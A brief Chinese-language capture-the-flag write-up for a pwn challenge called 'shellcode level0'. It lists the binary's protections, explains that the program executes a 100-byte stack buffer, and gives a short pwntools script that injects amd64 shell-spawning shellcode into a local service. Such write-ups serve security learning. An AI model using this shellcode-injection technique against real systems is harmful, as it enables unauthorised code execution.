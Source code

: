 # shellcode level0

## 文件分析

下载`shellcode_level0`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 逆向

程序中直接执行rbp-0x70的地址，且给了100B的空间，填一个shellcode即可

**注意要在运行asm时加上参数`arch='amd64'`**，缺省以i386架构产生，会报错

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33151)
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
